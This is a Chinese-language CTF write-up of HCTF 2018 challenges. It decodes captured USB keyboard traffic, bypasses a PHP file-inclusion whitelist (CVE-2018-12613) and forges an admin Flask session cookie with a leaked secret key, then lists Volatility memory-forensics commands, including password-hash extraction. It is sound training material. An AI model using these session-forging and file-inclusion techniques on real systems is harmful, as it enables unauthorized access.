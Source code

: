 ## 0x01 HCTF

#### 1. Misc-difficult programming language

` tshark -r difficult_programming_language.pcapng -T fields -e usb.capdata > usbdata.txt`

提取一下键盘流量，根据提示，是个[这玩意](https://en.wikipedia.org/wiki/Malbolge)的编程语言。

```python

usb_codes = {
    0x04:"aA", 0x05:"bB", 0x06:"cC", 0x07:"dD", 0x08:"eE", 0x09:"fF",
    0x0A:"gG", 0x0B:"hH", 0x0C:"iI", 0x0D:"jJ", 0x0E:"kK", 0x0F:"lL",
    0x10:"mM", 0x11:"nN", 0x12:"oO", 0x13:"pP", 0x14:"qQ", 0x15:"rR",
    0x16:"sS", 0x17:"tT", 0x18:"uU", 0x19:"vV", 0x1A:"wW", 0x1B:"xX",
    0x1C:"yY", 0x1D:"zZ", 0x1E:"1!", 0x1F:"2@", 0x20:"3#", 0x21:"4$",
    0x22:"5%", 0x23:"6^", 0x24:"7&", 0x25:"8*", 0x26:"9(", 0x27:"0)",
    0x2C:"  ", 0x2D:"-_", 0x2E:"=+", 0x2F:"[{", 0x30:"]}",  0x31:"\|", 0x32:"#~",
    0x33:";:", 0x34:"'\"", 0x35:"`~", 0x36:",<",  0x37:".>", 0x38:"/?"
    }

lines = ["","","","",""]
        
pos = 0

for x in open("/Users/lambda/Downloads/usbdata.txt","r").readlines():
    code = int(x[6:8],16)
    
    if code == 0:
        continue
    # newline or down arrow - move down
    if code == 0x51 or code == 0x28:
        pos += 1
        continue
    # up arrow - move up
    if code == 0x52:
        pos -= 1
        continue

    # select the character based on the Shift key
    if code in usb_codes.keys():
        if int(x[0:2],16) == 2:
            lines[pos] += usb_codes[code][1]
        elif(int(x[0:2],16) == 0):
            lines[pos] += usb_codes[code][0]

for x in lines:
    print x

```

[在线](http://malbolge.doleczek.pl/#)跑一下，出结果～  
[键盘按键码](https://www.usb.org/sites/default/files/documents/hut1_12v2.pdf)  
[从CTF中学USB流量捕获与解析](https://www.anquanke.com/post/id/85218)   
[malbolge](https://www.lscheffer.com/malbolge.shtml)  


#### 2. Web-Warmup

```php
<?php
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

用[CVE-2018-12613](http://seaii-blog.com/index.php/2018/07/03/84.html)当成签到题，666～～


#### 3. Web-admin

注册登陆，changepassword页面中指明了代码在"https://github.com/woadsl1234/hctf_flask".下载审计

index.html里：

```html

{% include('header.html') %}
{% if current_user.is_authenticated %}
<h1 class="nav">Hello {{ session['name'] }}</h1>
{% endif %}
{% if current_user.is_authenticated and session['name'] == 'admin' %}
<h1 class="nav">hctf{xxxxxxxxx}</h1>
{% endif %}
<!-- you are not admin -->
<h1 class="nav">Welcome to hctf</h1>

{% include('footer.html') %}
```

第一个`current_user.is_authenticated`应该登陆就会满足，主要看`session['name']`。  
flask的session  

> .eJw9kEGLwjAQhf_KkrOHptqL4EGJSneZCZW6ZXIRV2ubxLhQFXXE_75RFo_De--beXMXq11XH1sxPHXnuidWdiuGd_HxI4YCGBIsmxTny8woyiAUN0gXe3R5akqfkjOWHEgsxxfipdTKD4jzDFwu0U088nfAcrbHQIlxEwvluA9cMFXRw9PIo4RSYipbj2rhiI01Kr8-veg2V60aJlfciNFj9enBbQbA_mIqiKm91QqkrvKbrqYj8eiJzbHbrU6_vj68K2DEAed9o9oWnAlaTQIoiBFKwLU-Lh9QVWTIC6vnz9O3FpvRC2fDuqnfJJNmX-t_5bAOURBSStET52Pdvb4WZ_H4A4VKbB0.W-jkng.ZR_OIyed0DxPWjXcEiZcUE3EH5I

啥玩意这是。。。哪有name。。。

开头的“.”代表压缩，以“.”作为分隔符，解密第一部分。

> >>> zlib.decompress(base64_decode(data))
> '{"_fresh":true,"_id":{" b":"MzM0NTg2NGU5ZDY5MmQyM2RlNjI2ZTk2YjZiYjM1NTAwYzU1ODk4YzI5MjI1NjBkNzVmNTFlNmY0ZjBiMTA3MzQzYWI5MzE5MmY0Y2YzYThkNDRjYzZiZDIxZjBiNjcxODgzYjQyYzNkNWJkMjc4MzkwZWM2YzliODM1OWIyOWE="},"csrf_token":{" b":"NDIxMzI3ZDhhMjZmODBmMDMyOWY0MjhkYzY4YWQ5NzRiOGI5MjdiNg=="},"image":{" b":"Z25Kag=="},"name":"111","user_id":"11"}'

所以想当然的还是去伪造admin用户。编不下去了。

github的session解码脚本：
[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager/blob/master/session_cookie_manager.py)

config.py里有配置`SECRET_KEY`:  

```python
class Config(object):
    SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
    SQLALCHEMY_DATABASE_URI = 'mysql+pymysql://root:adsl1234@db:3306/test'
    SQLALCHEMY_TRACK_MODIFICATIONS = True

```

> Python3 Flasksession_cookie_manager.py encode -t "{ '_fresh': True, '_id': b'MzM0NTg2NGU5ZDY5MmQyM2RlNjI2ZTk2YjZiYjM1NTAwYzU1ODk4YzI5MjI1NjBkNzVmNTFlNmY0ZjBiMTA3MzQzYWI5MzE5MmY0Y2YzYThkNDRjYzZiZDIxZjBiNjcxODgzYjQyYzNkNWJkMjc4MzkwZWM2YzliODM1OWIyOWE= ',' csrf_token ':' NDIxMzI3ZDhhMjZmODBmMDMyOWY0MjhkYzY4YWQ5NzRiOGI5MjdiNg== ',' image ': b'Z25Kag==', 'name': 'admin', 'user_id': '11'} "-s 'ckj123'

改下cookie就好。  

[https://ctftime.org/task/7011](https://graneed.hatenablog.com/entry/2018/11/11/212048)

## 0x02 Volatility

imageinfo: 信息  
volshell: 命令  
    dt("内核关键数据结构名称")  
pslist: 进程  
hivelist: 注册表  
hivedump -o virtualaddress: 打印注册表数据  
printkey -K "SAM\Domains\Account\Users\Names": 获取SAM表中的用户  
printkey -K "SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon": 最后登录系统的账户  
memdump -p PID -D DIR: dump进程数据  
cmdscan: cmd 命令使用情况  
netscan: 网络连接情况  
iehistory: IE 浏览器的使用情况  
hashdump: NTML提取  
yarascan -Y "XXX" -p PID: 根据规则找东西

[内存取证三项CTF赛题详解](https://www.freebuf.com/articles/rookie/145262.html)    
[CTF内存取证入坑指南](https://www.freebuf.com/column/152545.html)

